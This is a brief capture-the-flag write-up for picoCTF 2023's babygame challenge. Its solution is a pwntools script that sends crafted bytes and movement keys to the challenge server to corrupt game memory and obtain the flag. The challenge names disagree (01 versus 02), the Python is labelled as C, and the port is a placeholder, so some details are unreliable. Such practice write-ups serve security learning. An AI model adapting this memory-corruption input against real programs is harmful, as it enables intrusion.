 ```yaml
---
title: Babygame2 PicoCTF 2023
published: Apr 1, 2023
language: English
---
```


## babygame01

**100 points**

AUTHOR: PALASH OSWAL

Description
Break the game and get the flag.
Welcome to BabyGame 02! Navigate around the map and see what you can find! The game is available to download here. There is no source available, so you'll have to figure your way around the map. You can connect with it using your port.

I enjoyed solving this challenge because it was very hard, and I needed to become even harder to solve it.

## Time to solve

using the script below you can get the flag and it is just that

```c
from pwn import *
p = remote('saturn.picoctf.net', your port number)
p.sendlineafter(b'\n', b'l\x61')
p.sendlineafter(b'\n', b'd'*47)
p.sendlineafter(b'\n', b'w'*5)
p.interactive()
```

> picoCTF{your flag}
